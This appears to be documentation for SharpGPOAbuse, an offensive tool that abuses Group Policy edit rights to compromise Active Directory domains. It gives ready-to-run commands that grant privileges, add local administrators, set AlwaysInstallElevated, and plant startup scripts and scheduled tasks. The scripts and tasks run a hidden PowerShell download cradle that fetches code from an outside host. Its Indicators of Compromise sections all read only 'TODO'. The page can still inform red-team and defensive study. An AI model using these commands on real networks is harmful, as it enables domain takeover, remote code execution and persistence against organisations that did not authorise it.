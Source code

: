 # SharpGPOAbuse
## Summary

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO. The original project hasn't been maintained in a couple of years, but [this fork](https://github.com/NukingDragons/SharpGPOAbuse) extends the functionality. The "Vulnerable GPO" is simply the GPO that you wish to target, this can even be the default domain controller GPO that is automatically created on every DC.

## Prerequisites

In order to abuse GPO's, a configured Active Directory domain must be completely set up, and you must have access to a user that has privileges to modify GPO's. In order to modify a GPO, this utility relies on LDAP and SMB as well. This binary is also a PE executable, it expects to be ran on a Windows machine that's already been joined to the target domain controller.

## Setup

Download the [current release executable](https://github.com/NukingDragons/SharpGPOAbuse/releases), and either reflectively load or upload to a domain-joined Windows machine that you have access to.

## Execution

### Method 1 - AddUserRights

The following are the available options to add rights to a user account via GPO:

```
Options required to add new user rights:
--UserRights
        Set the new rights to add to a user. This option is case sensitive and a comma separeted list must be used.
--UserAccount
        Set the account to add the new rights.
--GPOName
        The name of the vulnerable GPO.
```

This command will add the "SeTakeOwnership" and "SeRemoteInteractiveLogonRight" privileges to the bob.smith user account. 

```
SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 2 - AddLocalAdmin

The following are the available options to add a local admin via GPO:

```
Options required to add a new local admin:
--UserAccount
        Set the name of the account to be added in local admins.
--GPOName
        The name of the vulnerable GPO.
```

The following will create a new local administrator account named "bob.smith":

```
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 3 - AddUserScript / AddComputerScript

The following are the available options to add a user or computer script via GPO:

```
Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.
```

The following will add a user script, this syntax also works with "--AddComputerScript":

```
SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 4 - AddUserTask / AddComputerTask

The following are the available options to add a user or computer task via GPO:

```
Options required to add a new computer or user immediate task:

--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Additional User Task Options:
--FilterEnabled
        Enable Target Filtering for user immediate tasks.
--TargetUsername
        The user to target. The malicious task will run only on the specified user. Should be in the format <DOMAIN>\<USERNAME>
--TargetUserSID
        The targeted user's SID.

Additional Computer Task Options:
--FilterEnabled
        Enable Target Filtering for computer immediate tasks.
--TargetDnsName
        The DNS name of the computer to target. The malicious task will run only on the specified host.
```

The following will add a user task, this syntax also works with "--AddComputerTask":

```
SharpGPOAbuse.exe --AddUserTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 5 - AddRegistryKey

The following are the available options to add a registry key via GPO:

```
Options required to set a registry key:
--KeyPath
        The path to the registry key.
--KeyName
        The name of the registry key.
--KeyType
        The type of data to place into the registry key.
--KeyData
        The data to place into the registry key.
--Hive
        The registry hive to affect, can be HKLM or HCU.
--GPOName
        The name of the vulnerable GPO.
```

Currently, only the REG_DWORD key is supported with this tool. Due to restrictions on the GPO, only HKLM and HCU are available as hives.

The following will add a registry key:

```
SharpGPOAbuse.exe --AddRegistryKey --Hive HKLM --KeyPath "Software\Policies\Microsoft\Windows\Installer" --KeyName AlwaysInstallElevated --KeyType REG_DWORD --KeyData 1 --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO